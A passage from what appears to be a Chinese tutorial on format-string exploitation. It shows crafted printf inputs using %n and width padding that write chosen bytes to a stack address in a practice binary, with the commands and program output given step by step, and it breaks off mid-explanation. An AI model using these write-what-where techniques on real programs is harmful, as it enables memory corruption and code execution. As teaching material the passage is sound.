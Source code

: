 如上图所示，在`0xffffc874`处写入`0xcd`、`0xffffc875`处写入`0xab`、`0xffffc876`处写入`0x06`、`0xffffc877`处写入`0x08`，则value的值为`0x0806abcd`

## 写入`0xcd`：

```bash
# 因为%n之前有5个字节，可以用gdb简单的计算`0xcd-5`得到200，所以需要添加200字节的宽度
rz$ gdb -q -batch -ex "p 0xcd-0x5"
$1 = 200

rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff%0200x"`%11\$n" # 用%0200x，添加200字节的宽度
your input:
A����00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000%11$n
the wrong way to print:
A����00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
000000000000000000000000000000000000000000000000
[*] value @ 0xffffc874 = 0x000000cd # 输出cd
```

## 写入`0xab`:

此时有两个问题
- 由于`%n`会读取4个字节，所以像之前那样直接在`\x74\xc8\xff\xff`后添加`%0200x`这种写法将无法正确读取后面的地址。此时可以已任意四个字节的数据代替`%0200x`这种写法，然后在格式化参数处进行`%0200x`这种扩展

	![-](/assets/img/md/2018-07-22-168368210719.png)
	
	此时可计算第一个`%n`之前应用`%0176x`扩展才能使`ffffc874`处的值为`0xcd`
	```bash
	rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff----\x75\xc8\xff\xff----\x76\xc8\xff\xff----\x77\xc8\xff\xff"`%0176x%11\$n" # 改为%0176x
	your input:
	At���----u���----v���----w���%0176x%11$n
	the wrong way to print:
	At���----u���----v���----w���00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000
	0000000000000000000000000000000000000000ffffcf2b
	[*] value @ 0xffffc874 = 0x000000cd
	```

- 马上要写入的数据为`0xab`，比之前写入的`0xcd`还要小，可以利用位溢出：`0xab-0xcd=-0x22`，`-0x22`也就是`0xffde`，所以再添加`0xde=222`个字节即可
